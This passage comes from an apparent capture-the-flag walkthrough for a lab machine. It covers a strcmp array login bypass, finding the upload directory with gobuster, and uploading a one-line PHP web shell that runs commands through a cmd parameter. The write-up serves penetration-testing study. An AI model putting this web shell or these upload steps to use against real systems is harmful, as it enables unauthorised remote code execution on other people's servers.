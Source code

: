 
*This converts the variables to arrays and after forwarding the request, ```strcmp()``` returns ```true``` and the login is successful. Once logged in, we see a file upload functionality.*

Note: Once you've modified the request and sent it with Forward, turning off intercept allows your browser to receive the response from the server normally. So, after the exploit works, disabling intercept lets you see the result in the browser—like getting logged in. It’s easy to forget that step, but it’s crucial to complete the process smoothly!

## Foothold

*Since the webpage can execute PHP code, we can try uploading a PHP file to check if PHP file uploads are allowed or not, and also check for PHP code execution. Let us create a PHP file with the ```phpinfo()``` function, which outputs the configurational information of the PHP installation.*

```
echo "<?php phpinfo(); ?>" > test.php
```

*After ```test.php``` has been created, choose the file after clicking the Upload button, and we will be presented with the following notification, which shows that the file was successfully uploaded.*

*Next, we need to figure out where uploaded files are stored. To do that, we will use Gobuster to do a directory brute force.*

```
gobuster dir --url http://10.10.10.48/ --wordlist /usr/share/wordlists/dirb/big.txt
```

*The scan shows that a folder called ```_uploaded``` exists. We will navigate to it to see if our file is there. It appears that this folder has also been set as listable and we can see all the files that are uploaded.*

*Upon clicking on ```test.php```, we can see the output of the ```phpinfo()``` command, thus confirming code execution.*

*Let us now create a PHP web shell which uses the ```system()``` function and a ```cmd``` URL parameter to execute system commands. Place the following code into a file called ```webshell.php```.*

```
<?php echo system($_REQUEST['cmd']);?>
```

*We are making use of the ```$_REQUEST``` method to fetch the ```cmd``` parameter because it works for fetching both URL parameters in ```GET``` requests and HTTP request body parameters in case of ```POST``` requests. Furthermore, we also use a POST request later in the walkthrough, thus using the ```$_REQUEST``` method is the most effective way to fetch the ```cmd``` parameter in this context.*

*After the web shell has been created, upload it as shown previously.*

*After the file has been uploaded, click on it in the browser and it will show a blank page, however, if we add a system command in the ```cmd``` URL parameter, the PHP backend will execute its value, e.g: ```?cmd=id.``` For example:*

```
http://10.129.95.184/_uploaded/webshell.php?cmd=id
```
